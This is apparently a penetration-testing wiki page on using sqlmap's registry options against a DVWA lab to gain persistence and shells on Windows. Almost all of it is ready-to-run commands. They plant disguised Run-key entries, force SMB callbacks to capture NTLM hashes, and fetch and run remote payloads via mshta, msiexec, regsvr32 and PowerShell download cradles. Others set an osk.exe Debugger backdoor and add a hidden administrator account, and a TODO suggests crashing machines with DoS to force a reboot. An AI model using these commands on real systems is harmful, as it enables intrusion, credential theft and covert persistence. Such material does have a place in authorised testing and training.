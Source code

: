 # Windows Registry Features

## 01 - Create Registry Values

TODO: Provide examples for windows OS enumeration using windows registry commands to apply the same methods in [[Registry|lateral movement]] and [[Registry Keys|persistence methods]]. Also provide a scenario if it's not possible to reboot the windows machine. An attacker can use **Denial of Service (DoS)** attack vector to crash the machine then it reboots to get a callback shell.

### 1.1 - Grab NTLM hashes

- Run [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Passive/Responder|Responder]] to grab the NTLM hashes

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater --reg-data "cmd.exe /c dir \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater --reg-data "cmd.exe /c net view \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-read "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater
```

### 1.2 - Execute callback shell in disk

- **Upload a callback shell in the windows temporary directory.**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --file-write=/path/to/shell.exe --file-dest="C:\Windows\Temp\shell.exe"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater --reg-data "C:\Windows\Temp\shell.exe"
```

- **Then confirm the registry value is updated successfully.**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-read "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater
```

- **Cleanup the registry value and confirm it's deleted.**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-del "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-read "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater
```

### 1.3 - Execute callback shell in memory (fileless)

#### 1.3.1 - Host a webserver to stage the implant

- **Mshta**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater --reg-data "mshta.exe http://<IP>/shell.hta"
```

- **Msiexec**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater --reg-data "msiexec /q /i http://<attacker_IP>/shell.msi"
```

- **Regsvr32**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater --reg-data "regsvr32 /s /n /u /i:http://<attacker_IP>/shell.sct scrobj.dll"
```

- **Powershell**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater --reg-data "powershell.exe -nop -NonI -Nologo -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\'http://<IP>/shell.ps1\'))\""
```

#### 1.3.2 - Directly execute the callback shell

- **Powershell**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater --reg-data "conhost --headless powershell.exe -nop -NonI -Nologo -w hidden -e <base64_payload>"
```

- **Cleanup the registry value and confirm it's deleted.**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-del "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-read "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater
```

#### 1.3.3 - Living off the Land

##### 1.3.3.1 - Remote Desktop Protocol via Stick Key Command Prompt

- **We must first take note of the registry values to clear traces afterwards**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value Debugger
```

- **Add a terminal prompt in the registry value.**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value Debugger --reg-type=REG_SZ --reg-data "cmd.exe"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value Debugger --reg-type=REG_SZ --reg-data "powershell.exe"
```

- **Create user account (Optional). Refer to this [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Persistence/Windows/Host Persistence/Create User|link]].**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater --reg-data "cmd /c net user webadmin Passw0rd123\! /add /y & net localgroup Administrators webadmin /add /y & net localgroup \"Remote Desktop Users\" webadmin /add /y"
```

- **Then confirm the modified changes.**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value Debugger

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-read "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater
```

- **Cleanup the registry value and double check to confirm.**

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-del "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --reg-read "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater
```